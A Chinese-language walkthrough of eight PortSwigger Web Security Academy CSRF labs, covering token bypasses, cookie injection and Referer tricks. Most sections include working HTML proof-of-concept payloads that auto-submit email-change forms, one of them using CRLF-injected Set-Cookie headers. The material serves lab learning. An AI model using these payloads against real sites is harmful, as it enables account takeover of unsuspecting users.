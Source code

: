 [TOC]

#### 1. CSRF vulnerability with no defenses

* 用给的账号登陆

* 更改email，并抓包

* 在burp里面生成CSRF PoC，并确定自动提交

    ```html
    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://ac451f1d1e0a9d0a8074031e0039009e.web-security-academy.net/email/change-email" method="POST">
          <input type="hidden" name="email" value="456&#64;ae" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

* 复制这个到exploit server的body框，点击store。
  

#### 2. CSRF where token validation depends on request method

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-2)

这里抓包之后发现有CSRF-token，盲猜在GET请求的时候不会检查这个。

还是按照前面的过程，但是将自动生成的那个`method="POST"`改成`method="GET"`或者删掉。

然后复制到exploit server，最后store。

#### 3. CSRF where token validation depends on token being present

直接提交不行，改成GET也不行。

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-4)

> ### 删除token参数或发送空token
>
> 不发送token也可以正常请求数据是因为这种逻辑错误在应用程序中非常常见：应用程序有时会在token存在的时候或者token参数不为空的时候检查token的有效性。这种情况下，如果一个请求不包含token或者token值为空，那么也是有可能绕过CSRF的防御的。

这里将token改成空，发现不行。

删除token之后通过了验证。

#### 4. CSRF where token is not tied to user session

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-5)

这里题目给的提示是token没有绑定session，那我们可以用自己的token去试试。

我一开始怎么试都不行，然后又多试了几下，发现token变了，说明token是一次性的。

这里自己改一下密码，然后拦截一下包，复制了token之后就把包给drop了，这时候再用这个复制好的token就可以了。

#### 5. CSRF where token is tied to non-session cookie

先用wiener的账号试了两次改邮箱，发现两次的csrf和csrfKey都是一样的，说明这次的token不是一次性的。

然后我用wiener的csrf和csrfKey去更改carlos邮箱发现也是可以的，证明这个session和csrfKey不是绑定的。

现在的要做的就是更改受害者的cookie，然后再让他点击钓鱼网站。

然后我就卡住了...

看了一下官方的解题过程，是在搜索框使用的CRLF漏洞。

POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acbe1f681eaad119806704c500280028.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="456&#64;ae" />
      <input type="hidden" name="csrf" value="P9Rn0kUekymbUYAKylxoJ8PkvsRczN2d" />
      <input type="submit" value="Submit request" />
    </form>
	<img src="https://acbe1f681eaad119806704c500280028.web-security-academy.net/?search=aaa%0d%0aSet-Cookie:%20csrfKey=W0z6LHzn3a7FzVcJeZvg8oAoljRdIvoh" onerror="document.forms[0].submit()">
  </body>
</html>
```

#### 6. CSRF where token is duplicated in cookie

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-6)

这里应该是cookie里的csrf和参数里的csrf一样就能绕过了。

而且看了一下搜索框仍然有那个CRLF漏洞。

POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acb71f311ef923a2805b169300560070.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="456&#64;ae" />
      <input type="hidden" name="csrf" value="eval" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://acb71f311ef923a2805b169300560070.web-security-academy.net/?search=aaa%0d%0aSet-Cookie:%20csrf=eval" onerror="document.forms[0].submit()">
  </body>
</html>
```

#### 7. CSRF where Referer validation depends on header being present

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-8)

用burp抓包发现不添加referer也可以更改成功。

POC：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acaa1fd11fee69f880217f8f00d70039.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="111&#64;uu" />
      <input type="submit" value="Submit request" />
    </form>
	<meta name ="referrer" content ="no-referrer">
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### 8. CSRF with broken Referer validation

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-9)

通过不断地测试，发现这里是白名单测试referer里的字段`acbf1f801eb6b1f880d389f200970060.web-security-academy.net`，只要将这个改成`acbf1f801eb6b1f880d389f200970060.web-security-academy.net.xxx`就可以绕过，如果能够用原来的referer也行。

使用`history.pushState("", "", "/?acbf1f801eb6b1f880d389f200970060.web-security-academy.net")`就可以更改referer，便可以绕过。

POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?acbf1f801eb6b1f880d389f200970060.web-security-academy.net')</script>
    <form action="https://acbf1f801eb6b1f880d389f200970060.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="111&#64;uu" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

